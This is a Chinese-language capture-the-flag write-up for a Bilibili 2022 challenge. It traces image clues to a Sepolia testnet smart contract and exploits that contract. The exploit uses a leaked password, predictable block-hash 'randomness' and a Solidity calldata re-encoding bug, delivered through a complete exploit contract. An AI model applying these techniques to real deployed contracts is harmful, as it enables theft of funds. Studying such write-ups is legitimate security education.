

# 第四题：区块链与智能合约


## 已知线索

已知两张图片，名称非常类似。
- back.png 可以正常显示。
- back2.png 无法显示。

需要猜测隐藏信息的形式，这里有几种猜测：

- 双图隐写
- 单图LSB/MSB隐写
- 单图隐藏压缩文件
- 双图差异
- ……


### binwalk检测是否隐藏文件

下载安装 binwalk 2.3.2版本（这个版本在windows 10下目前没有BUG）,安装之后在本地确认安装正确：
`C:\Python\Python37\Scripts`路径下应该有一个binwalk文件。

```bash
cd C:\Python\Python37\Scripts
python binwalk -h
```

对于图片隐写，我们只关心文件提取部分的指令说明：

```bash
Extraction Options:
    -e, --extract                Automatically extract known file types
    -D, --dd=<type[:ext[:cmd]]>  Extract <type> signatures (regular expression), give the files an extension of <ext>, and execute <cmd>
    -M, --matryoshka             Recursively scan extracted files
    -d, --depth=<int>            Limit matryoshka recursion depth (default: 8 levels deep)
    -C, --directory=<str>        Extract files/folders to a custom directory (default: current working directory)
    -j, --size=<int>             Limit the size of each extracted file
    -n, --count=<int>            Limit the number of extracted files
    -r, --rm                     Delete carved files after extraction
    -z, --carve                  Carve data from files, but don't execute extraction utilities
    -V, --subdirs                Extract into sub-directories named by the offset
```

```bash
> python binwalk -e D:\Code\MyGithubProjects\bilibili-2022-sec1024\4\back.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 1920 x 1080, 8-bit/color RGBA, non-interlaced
62            0x3E            Zlib compressed data, default compression
```

```bash
> python binwalk -D 'png image:png' -e D:\Code\MyGithubProjects\bilibili-2022-sec1024\4\back2.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 1920 x 1080, 8-bit/color RGBA, non-interlaced
62            0x3E            Zlib compressed data, default compression
```

可以看到，排除了图片隐写内部压缩文件的可能。


### 比较双图文件差异


这里直接使用可视化工具 Beyond Compare对比双图字符差异。拿到了一个明文的字符串。

```
{sepolia@0x053cd080A26CB03d5E6d2956CeBB31c56E7660CA}
```

经过一番查询，得知：

-  Sepolia 是以太坊的一个测试网。

-  Sepolia 是运行 PoW 的 Ethash 算法的测试网，其使用的 EVM 版本是 London 升级的版本。
- 0x053cd080A26CB03d5E6d2956CeBB31c56E7660CA 这串字符是合约地址。

于是，可以访问 https://sepolia.etherscan.io/address/0x053cd080a26cb03d5e6d2956cebb31c56e7660ca 进行下一步探索。


## 探索 Sepolia 智能合约

### 开源的源码

在 https://sepolia.etherscan.io/address/0x053cd080a26cb03d5e6d2956cebb31c56e7660ca#code 地址可以找到该合约的开源代码。

将全部源码下载到本地进行分析,文件列表如下：

```
Constructor Arguments
Context.sol
Contract-ABI.json
ContractCreationCode.sol
ctf.sol
IERC20.sol
IERC20Metadata.sol
Swarm Source
```

仔细观察每一个文件的内容。可以得到：

- Constructor Arguments中含有deploy这个合约的凭证参数。
- ctf.sol 是关键，代码量也很大。


### 寻找flag信息与触发机制

在 ctf.sol 中可以搜索flag字符，可以找到相关的函数。

```solidity
function payforflag(string memory mid, string memory b64email) public {
    require(_flag[msg.sender] == 2);
    emit sendflag(mid, b64email);
}
```

显然，这个就是我们想要触发的函数。

**当 _flag[msg.sender] == 2 时，就会触发 sendflag(mid, b64email) 发邮件给做题者**。

sendflag(mid, b64email)的参数含义，可以在该文件中找到：

```solidity
//mid = bilibili uid
//b64email = base64(your email address)
//Don't leak your bilibili uid
//Gmail is ok. 163 and qq may have some problems.
event sendflag(string mid, string b64email);
```

做题者的email通过base64 encode传入，mid是b站ID。因此这个题目提交答案时，后台很可能会对mid进行绑定检测。

---

那么，问题关键就在于如何构造条件，使得 _flag[msg.sender] == 2。

于是在代码中寻找能够设置 _flag[msg.sender] 的值的函数。可以找到 withdraw() ：

```solidity
function withdraw() public {
    require(ethbalances[msg.sender] >= 1);
    require(_ebalances[msg.sender] >= 1812);
    payable(msg.sender).call{value:100000000000000000 wei}("");
    
    _ebalances[msg.sender] = 0;
    _flag[msg.sender] += 1; // ===> 注意这里
}
```

也就是，**我们要想办法，正常触发两次withdraw函数，然后就能调用 payforflag 函数了**。

> 注意的是：每次withdraw后都会清空_ebalances。

而 withdraw() 的正常运行条件为：

```solidity
require(ethbalances[msg.sender] >= 1);
require(_ebalances[msg.sender] >= 1812);
```

对 ethbalances 和 _ebalances 有要求 。那么需要继续查找能够设置或者增加这两个属性值的函数。

---

**对于 _ebalances ：** 

在代码中搜索 _ebalances ，可以得知：通过 sale 函数可以将 amount 换成 _ebalances。

```solidity
function sale(uint amount) public {
    require(_balances[msg.sender] >= amount, "fail to sale");
    // tokenprice is 6
    uint earn = amount * tokenprice;
    _transfer(msg.sender, owner, amount);
    _balances[msg.sender] += earn;
}
```

amount 是 _balances[msg.sender]，也就是 _balances。**于是我们关键是要获取 _balances**。

另外，通过这个函数可以得知：1 amount = 6 _balances。

现在，我们有了初步的想法：withdraw() x2 => [_ebalances1812] x2 => [sale1812/6] x2 => sale302 x2。

**也就是必须使用至少302个happybili币来调用sale()两次。**一共需要604个happybili币。

---

**对于 ethbalances：**

在代码中搜索 ethbalances，可以得知：**通过 deposit 函数可以将 ethbalances[msg.sender] += 1**。

```solidity
function deposit() public {
    require(_depositd[msg.sender] == 0, "you can only deposit once");
    _depositd[msg.sender] = 1;
    ethbalances[msg.sender] += 1;
}
```

这个ethbalances的条件很简单，因此只需要一次deposit()调用即可满足。

---

很好，**那么现在我们还缺的最后一块拼图就是：如何获取 _balances？**


### 解决问题的关键

我们继续阅读源码，发现：

- profit() => balance +1。只能一次。
- borrow(amount) => 只能borrow(1)，balance+1。

感觉都是些蚊子腿，这也太抠了吧。

---

对于auth_1方法，需要密码，密码却不是123456。这个肯定是个坑，部署者已经改了密码。

```solidity
function auth1(uint pass_) public {
    require(pass_ == secret, "auth fail");
    require(_authd[msg.sender] == 0, "already authd");
    _auth_one[msg.sender] += 1;//1
    _authd[msg.sender] += 1;// 1
}
```

在网站事务记录中查看auth_1或者set_secret方法的调用记录，发现密码是 22331024。

>https://sepolia.etherscan.io/tx/0xf4d486921d3b2241c49f237fc7e167c9289401e576c44b5b490093bacd7e1116


简单测试，发现的确可以登陆成功。auth_1解决。

---

对于auth_2，

```solidity
function auth2(uint pass_) public {
    uint pass = uint(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp)));
    require(pass == pass_, "password error, auth fail");
    require(_auth_one[msg.sender] == 1, "need pre auth");
    require(_authd[msg.sender] == 1, "already authd");
    _authd[msg.sender] += 1;//authd 2
}
```

通过阅读源码可以得知，外部传参为

```solidity
uint(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp)));
```

时就能正常通过。

---

对于flashloan函数，这里看到了希望。

```solidity
function flashloan(SignCoupon calldata scoupon) public {
    require(scoupon.coupon.loankey == 0, "loan key error");
    require(msg.sender == address(this), "hacker get out");

    Coupon memory coupon = scoupon.coupon;
    Signature memory sig = scoupon.signature;
    c=coupon;

    require(_authd[scoupon.coupon.buser] == 2, "need pre auth");
    require(_loand[scoupon.coupon.buser] == 0, "you have already loaned");
    require(scoupon.coupon.amount <= 300, "loan amount error");

    _loand[scoupon.coupon.buser] = 1;
    _ebalances[scoupon.coupon.buser] += scoupon.coupon.amount;
}
```

因为这个函数即使限制了amount<=300，但是依旧是一笔不错的收入。_ebalances可以得到显著增加。

查找有关flashloan的调用，可以定位到 testborrowtwice() 函数

````solidity
function testborrowtwice(SignCoupon calldata scoupon) public {
    require(scoupon.coupon.loankey == 2233);
    MyToken(this).flashloan(scoupon);
}
````

> 这里有个问题：scoupon.coupon.loankey == 2233 ，到了flashloan() 函数里面，却要求 scoupon.coupon.loankey == 0。为何能正常通过呢？

对于这道题，`bytes reason` 是一个bug字段，会造成第一个字段也就是loankey变成0。 因此可以连续通过 testborrowtwice 和 flashloan 看似矛盾的验证。 
BUG全称为：Head Overflow Bug in Calldata Tuple ABI-Reencoding，0.5.8引入，0.8.16被修复。[参阅链接](https://blog.soliditylang.org/2022/08/08/calldata-tuple-reencoding-head-overflow-bug/) 。

下面给出示例solution.sol代码

```solidity
// SPDX-License-Identifier: MIT
// OpenZeppelin Contracts (last updated v4.7.0) (token/ERC20/ERC20.sol)

pragma solidity ^0.8.2;

import "./ctf.sol";

interface HappyBiliAPI {
    function auth1(uint pass_) external;
    function auth2(uint pass_) external;
    function testborrowtwice(SignCoupon calldata scoupon) external;
    function buy(uint amount) external;
    function transfer(address to, uint256 amount) external;
    function deposit() external;
    function borrow(uint amount) external;
}

contract solution {
    HappyBiliAPI constant private instance = HappyBiliAPI(0x053cd080A26CB03d5E6d2956CeBB31c56E7660CA);

    function solve() public {
        instance.auth1(22331024);
        instance.auth2(uint(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))));
        // instance.deposit();
        // instance.borrow();
        Coupon memory coupon = Coupon(2233, 300, address(this), "bilibili");
        Signature memory sign = Signature(1, [bytes32("a"), bytes32("b")]);
        SignCoupon memory sc = SignCoupon(coupon, sign);
        instance.testborrowtwice(sc);
        instance.buy(300);
        address myWallet = {这里填你的钱包地址};
        instance.transfer(address(myWallet), 300);
    }

    // call deposit() -> sale() -> withdraw() -> sale() -> withdraw()
    // can also use buy() to increase your balances
}
```

注意这里的：HappyBiliAPI(0x053cd080A26CB03d5E6d2956CeBB31c56E7660CA); 直接传入地址来构造实例。


### email base64

对于email的base64编码，可以通过在线base64编码工具，或者本地使用python脚本来获取。

```py
import base64

mid = "{YOUR_BILIBILI_MID}"
email = "{YOUR_EMAIL}"

message_bytes = email.encode('ascii')
base64_bytes = base64.b64encode(message_bytes)
base64_message = base64_bytes.decode('ascii')

print(base64_message)
```


## 实施

在下面这个章节中，我将详细描述在Web 3概念中如何部署一个智能合约到以太坊的sepolia测试网。

### 导入源码

1.访问 https://remix.ethereum.org/ 在线编辑器并将源码导入到一个新建的文件夹。示例中为`ctf/`。


### 编译智能合约

这里我们需要编译这份合约，为了能正确编译，需要将编译版本指定为^0.8.2，使用更加宽泛的版本号。


在左侧Tab中点击 solidity compiler，选择高于等于0.8.2的版本，并执行编译。


### 部署合约的准备

这一步非常关键。

我们点击左侧的depoly的tab，在environment下拉菜单中选择Injected Provider - Metamask。

| Deploy to Injected Provider - Metamask                       | 小狐狸的chrome 插件                                          |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
|  |  |

它会触发对以太坊的钱包管理器的链接。也就是一个小狐狸的chrome 插件。

这个插件可以在chrome 插件应用商店下载。下载地址：[MetaMask](https://chrome.google.com/webstore/detail/metamask/nkbihfbeogaeaoehlefnkodbefgpgknn?utm_source=chrome-ntp-icon)。

> Metamask插件有了，没有以太坊钱包账号如何办？可以到官网 https://www.myetherwallet.com/ 进行注册。请务必妥善处理保存你的密码找回图片凭据，不要泄漏和遗忘。下面文章将假定你已经注册完钱包账号回来了。

我们在插件的网络显示按钮上点击，会弹出下拉选项，选择【添加网络】，将sepolia测试网添加进来。

| 添加网络                                                     | 详细设置页面                                                 |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
|  |  |

很好，现在我们已经添加了sepolia测试网，然而，如果你是一个刚刚新生的钱包。那么你的SepoliaETH应该为0。

那么现在是应该去获取水龙头的时刻了。

> 水龙头是什么？英文单词为Faucet。这是一个生动的比喻，水龙头的水会一直不断地流出来，这里对应测试币的产生是源源不断的。

在网上搜索“sepolia faucet”，然后选择一个看起来靠谱点的水龙头。这里以 https://sepolia-faucet.pk910.de/ 为例。

| 登陆钱包                                                     | 《Re CPU:从零开始的悲惨生活》                                |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
|  |  |

当看见熟悉的彩虹猫后，你的CPU应该是保持100%的计算状态。这里需要注意三点：

- Number of Workers：工作线程数，值越高，CPU越痛苦，受限于你当前的CPU硬件。你能并发计算的hash运算次数，不会高于你物理CPU的能力。
- Minimum Claim Reward：最小提现的阈值。你必须挖矿挖到>=0.05这个值，才允许提现。
- Avg. Reward per Hour: 0.75 SepETH/h。这个值指的是每小时的挖矿速度。值越高越好，然而事实却是经常下降。

> 注意：有时你会遇到提示：你当前正在使用国外代理（这是能说的吗？），为了公平竞争，收益会下降。请绕过国外代理检测。

很好，经过一小会时间，我们就可以薅到许多羊毛。示例如下：

| 《Re CPU：悲惨生活的结束》                                   | 小狐狸确认钱包到账                                           |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
|  |  |

现在，我们终于可以去deploy 自己的智能合约了。


### 部署自己的合约


### 通过地址加载他人已部署的合约

我们可以在Remix中加载他人已经部署的合约，与之交互。


首先

- 确认选择sepolia网络。
- 确认你的钱包含有足够的sepolia测试币。
- 确认stf.sol这个合约被正确编译，现在是可部署状态。
- 填入他人合约地址。

点击 At Address 然后加载B站CTF的合约。 如果一切正常，那么就能看到合约现在可以交互了。

---

还有一种交互方式是到sepolia的官方页面，找到对应的合约。


这两种方式没有本质区别。


### 拿下flag

到sepolia官方进行 deposit -> sale -> withdraw ->sale -> withdraw -> payforflag


检查自己填写的邮件信箱，理论上可以拿到含有flag的邮件。


## 其他可能的解决方法

这道题核心就是在于balance的获取，对于balance的获取，手段应该很多。例如：

- 我即使是薅profit和borrow的羊毛，2个一次，做302次，也能勤奋通关。
- 当balance值位于233<X<=300时，利用buy方法，1换6，血赚。
- ……


## 小结

这道题如果不熟悉web 3的话，入手会稍慢，因为要接触新概念和新的知识领域。一旦熟悉之后，就能逐渐推导出答案。


## 参考

- [remix](https://remix.ethereum.org/)
- [binwalk - Firmware Analysis Tool](https://github.com/ReFirmLabs/binwalk.git)
- [以太坊关于Sepolia的导航](https://ethereum.org/zh/developers/docs/networks/#sepolia)
- [以太坊官网（中文）](https://ethereum.org/zh/)